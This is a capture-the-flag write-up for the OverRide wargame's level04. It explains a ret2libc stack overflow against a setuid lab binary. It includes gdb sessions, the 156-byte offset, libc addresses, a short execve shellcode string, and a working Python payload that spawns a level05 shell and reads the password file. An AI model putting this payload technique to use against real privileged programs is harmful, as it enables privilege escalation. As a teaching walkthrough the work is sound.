# LEVEL04

## 1. Inspect The Executable

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
level04@OverRide:~$ ls -l
total 8
-rwsr-s---+ 1 level05 users 7797 Sep 10  2016 level04
```

We can see that the binary has the `s` bit set on the **execution permission**, which means the program will run with **`level05` privileges**.

```bash
level04@OverRide:~$ ./level04 
Give me some shellcode, k
shellcode
child is exiting...
level04@OverRide:~$ ./level04 
Give me some shellcode, k
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
child is exiting...
level04@OverRide:~$ ./level04 
Give me some shellcode, k
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
child is exiting...
level04@OverRide:~$ ./level04 
Give me some shellcode, k
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
^C
```

The program asks for shellcode and appears to be using a forked child process.

## 2. Analyze The Executable

```bash
(gdb) info functions 
All defined functions:

Non-debugging symbols:
[...]
0x08048494  main
[...]
```

Using the gdb command `info functions`, we can list all functions present in the binary.
Here, we find only the function: `main`.

### Program Behavior

#### main function

The `main` function first launches a `fork()` process. If the process is the child process, it calls `ptrace(PTRACE_TRACEME,0,0,0)` to trace its own process.
Then it reads user input with `gets()`.

Otherwise *(parent process)*, it waits for the child process to finish, then exits. Or it kills the process if an `execve()` call is detected.

## 3. Exploit Development

For this level, we will use a new attack : **ret2libc**.

### RET2LIBC Explanation

The `ret2libc` *(return-to-libc)* attack uses functions and strings already present in the C library and loaded in memory instead of injecting shellcode.

#### In Normal Case

In x86-32, when we call a function, several instructions are made on the stack.
First the caller pushes its arguments on the stack then use the `call` instruction.



*(Note: ESP points to the top of the stack, where `push` and `pop` operations occur.)*

A `call` instruction does 2 things :
- Pushes the caller next instruction as return address *(`SAVED EIP`)* onto the stack.
- Jumps to the target function.



In the target function, the prologue does 3 things :
- Pushes EBP onto the stack. - `push ebp`
- Moves EBP to ESP. - `mov ebp, esp` *(`mov %esp,%ebp` in GDB)*



- Subtracts from ESP to get memory for the locals variables - `sub esp, X`



---

When returning from a function, 2 instructions are made :
- `leave` :
	- Moves EBP to ESP. - `mov esp, ebp` *(`mov %ebp,%esp` in GDB)*
	- Pops SAVED EBP into EBP register, to get to the old stack frame base pointer. - `pop ebp`.




- `ret` : 
	- Pops SAVED EIP into EIP register, to get to the old stack frame next instruction. - `pop eip`
	- Jumps to EIP.



---

#### In ret2libc Case

With a buffer overflow, we can build the stack to look like a `system` `call`.
The payload structure is as follows :

```
[ padding ] [ system() address ] [ ret address of system() ] [ "/bin/sh" address ]
└────┬────┘ └─────────┬────────┘ └────────────┬────────────┘ └─────────┬─────────┘
	 ?				  4						  4						   4

Padding size depends on how many bytes it need to overflow on the saved EIP.
```

*(Note: We will use `exit()` address as `return address of system()`)*

With this injection, the stack is modified as follows :



- `leave` instruction is called :
	- Moves EBP to ESP. - `mov esp, ebp` *(`mov %ebp,%esp` in GDB)*
	- Pops SAVED EBP into EBP register, to get to the old stack frame base pointer. - `pop ebp`.




- `ret` instruction is called :
	- Pops SAVED EIP into EIP register, to get to the old stack frame next instruction. - `pop eip`
	- Jumps to EIP.




Arriving in `system` function, its prologue does 3 things :
- Pushes EBP onto the stack. - `push ebp`
- Moves EPB to ESP. - `mov ebp, esp` *(`mov %esp,%ebp` in GDB)*

At this point, `arg1` and `arg2` on the stack are now respectively `saved EIP` and `arg1` of `system()`.
So what we injected as `exit()` address is now at `EBP + 4`, system's return address *(`saved EIP`)*, and `"/bin/sh"` address is now at `EBP + 8`, system's first argument.



- Subtracts from ESP to get memory for the locals variables - `sub esp, X`



### Get The Exploit Values

First, we need to determine the size of the padding.

```bash
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 1894]
Give me some shellcode, k
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1894]
0x4e4e4e4e in ?? ()
```

`set follow-fork-mode child` is a gdb command that allows to continue the debugging in the child process (in case of fork() calls).

`0x4e` is 78 in decimal and `N` in ASCII. So we got an offset of `156 bytes`.

---

Then let's find the addresses for the payload.

```bash
(gdb) r <<< $(python -c 'print "a" * 156 + "BBBB"')
Starting program: /home/users/level04/level04 <<< $(python -c 'print "a" * 156 + "BBBB"')
[New process 1949]
Give me some shellcode, k

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1949]
0x42424242 in ?? ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$1 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

We found the address of system : `0xf7e6aed0` and exit : `0xf7e5eb70`.

Getting the address of the string `"/bin/sh"` is more complex :

```bash
(gdb) info proc map
process 1949
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fda000     0x2000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

We need the mapped address of the process to find the address of `libc` :

```bash
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
```

Then we use the command `find` of gdb *(search a word between the start and end address)*, to search in the libc memory area "/bin/sh". 

### Create the Payload

```bash
python -c 'print "a" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'
```

The `exit` address is not critical in this level since we just need the shell to spawn. We can use dummy bytes (`"bbbb"`) instead :

```bash
python -c 'print "a" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "b" * 4 + "\xf7\xf8\x97\xec"[::-1]'
```

### Attack Visualization



## 4. Capture The Flag

```bash
level04@OverRide:~$ (python -c 'print "a" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "b" * 4 + "\xf7\xf8\x97\xec"[::-1]'; cat) | ./level04 
Give me some shellcode, k
id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat /home/users/level05/.pass
XXX
^C
```